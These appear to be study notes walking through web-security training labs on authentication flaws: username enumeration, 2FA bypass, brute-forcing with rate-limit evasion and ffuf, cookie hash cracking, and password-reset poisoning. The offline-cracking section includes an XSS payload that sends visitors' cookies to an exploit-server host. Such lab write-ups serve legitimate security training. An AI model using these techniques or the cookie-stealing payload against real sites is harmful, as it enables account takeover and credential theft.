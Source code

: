 # Username enumeration via different responses
1. Test login
2. HTTP response says "invalid username"
3. Use Intruder and Grep - Extract to brute-force usernames and identify HTTP response which says "invalid password"
4. User Intruder and Grep - Extract to brute-force password associated with valid username and identify response indicating valid credential pair
# 2FA simple bypass
1. Login with valid credentials at URL: `/login`
2. Directed to URL: `/login2` for 2FA code
3. Force browser to `/my-account?id=carlos` to skip 2FA completely
# Password reset broken logic
1. Login page has reset password function
2. Reset password for account you have access to (Wiener)
3. Intercept request when submitting password reset and identify `username` parameter
4. Change `username` parameter to be `Carlos`
5. Login as Carlos
# Username enumeration via subtly different responses
1. Login page returns error message "Invalid username of password."
2. Fuzz username and Grep - Extract the exact phrase above
3. Read the results and see that one of the usernames returns the same error message except with the period missing
	1. This is the valid username
# Username enumeration via response timing
1. Generate large password e.g. 200 chars
```python
print("A"*200)
```
2. Send POST to `/login` with known valid username and see response time is very long
3. Send POST to `/login` with known invalid username and see response time is short
4. Construct Intruder **pitchfork** attack because you need to provide a header `X-Forwarded-For` to bypass IP based rate limiting on your login attempts
# Broken brute-force protection, IP block
1. Test how many failed login attempts cause an IP block (this case 3 failed login attempts)
2. Construct a wordlist using the POST body (use bash)
```sh
for i in $(cat passwords.txt); do echo "username=carlos&password=$i"; done > carlosBrute.txt
```
3. Use this [python script](https://raw.githubusercontent.com/MINEGOBLIN/BSCP/refs/heads/main/Authentication/brokenBruteForceProtectionIpBlock.py) to insert the valid login on every third row
4. Set up Burp Intruder to start with a valid login attempt and use the wordlist generated from the Python script
5. Configure the resource pool to make `1` request at a time and wait `100` milliseconds between each request
6. Review results for `302 Redirect` for the request using `Carlos` as the username
# Username enumeration via account lock
1. Send POST to `/login` with username list and a password list that has `4` passwords to make `4` failed login attempts
2. Use Grep - Extract to extract "Invalid username of password combination."
3. Analyse results and identify username that receives error message "Account locked..."
4. Brute force single username with entire password list using the same Grep - Extract above
5. Analyse results and identify username and password combination that does not receive any error message
6. After the `1` minute account lockout proceed to login with the credential pair identified in step `5`
# 2FA broken logic
1. Intercept POST request to `/login` with valid credential pair
2. Modify `verify` cookie to equal the value of target account `carlos`
3. Confirm no MFA code was generated and sent to `wiener` email and you are successfully at `/login2` (the second step in MFA)
4. Intercept request to submit MFA code
	1. Confirm cookie is `verify=carlos`
5. Fuzz MFA code with ffuf
```sh
ffuf -request mfabrute.req -w <(seq -w 1 9999) -mc 302
```
6. After identifying valid code, edit intercepted request to the valid code
# Brute-forcing a stay-logged-in cookie
1. Intercept POST request to `/login` with "stay logged in" checkbox selected
2. Identify `stay-logged-in` cookie is generated
3. Selecting cookie shows it is base64 encoded with in the format `wiener:hash_sum`
4. Repeat login attempt and base64 value stays the same so we know this cookie is static
5. Looks like a hash sum, test if it is `md5`
```sh
echo -n "peter" | md5sum
```
- Matches indicating the "stay logged in" cookie is the username and `md5` sum of the user's password
6. To brute force this "stay logged in" cookie create a wordlist that is the `md5` sum of candidate passwords
```sh
for i in $(cat passwords.txt); do echo -n "$i" | md5sum | awk '{print $1}' ; done > passwordsMD5.txt
```
7. Create a wordlist that is `username:passMD5sum`
```sh
for i in $(cat passwordsMD5.txt); do echo -n "carlos:$i\n"; done > carlosMD5Passwords.txt
```
8. Capture a request to `/my-account` with the `stay-logged-in` cookie present > Send to Intruder
9. Paste payload list from `carlosMD5Passwords.txt`
```sh
xclip -selection c < carlosMD5Passwords.txt
```
10. Disable URL encoding of the payload
11. Add "Payload processing" rule to Base64-encode the payload
12. Analyse results and find `200 OK` response indicating successful login
# Offline password cracking
1. Identify no filter done on comments allowing XSS to be performed
2. Static cookie `stay-logged-in` is identified when logging in and is comprised of the username and `md5` hash of the user's password
3. Submit a comment that will make anyone visiting the page send their session cookies to our server
```html
<script>var i=new Image; i.src="https://exploit-0a2000130407e1b580832a230159000a.exploit-server.net/log/?"+document.cookie;</script>
```
4. After victims visits blog post they'll send their `stay-logged-in` cookie to us
5. Base64 decode the cookie and take `md5` sum
6. Use on https://crackstation.net/ or use wordlist of md5sums
7. After getting password, authenticate using victim's credentials
# Password reset poisoning via middleware
1. Reset password sends a link via email to our account
	1. Password reset is a GET request with unique token parameter to reset password
2. Capture POST request to reset password
3. While still resetting password for Wiener's account > Inject Host override headers pointing to exploit server and inspect the links sent via email to see if generate a link pointing to your exploit server
4. Confirm `X-Forwarded-Host` header dynamically changes password reset link and makes the link go to exploit server
5. Confirm clicking reset password link leaks password reset token in exploit server logs
6. Reset Carlos's password
7. Check exploit logs
8. Steal token > Reset password
# Password brute-force via password change
1. Capture POST request to change password
2. Changing username parameter to Carlos returns `302` redirect to login page when both "New password" parameters match
3. Submitting request with "New password" parameters not matching returns `200 OK` and "New passwords do not match" in the HTTP response
4. Use the request with non-matching new password parameters in intruder to brute-force the password
5. Configure Grep - Extract to extract the warning message and identify the request returning "New passwords do not match" indicating the supplied old password was correct
6. Authenticate as Carlos using identified password
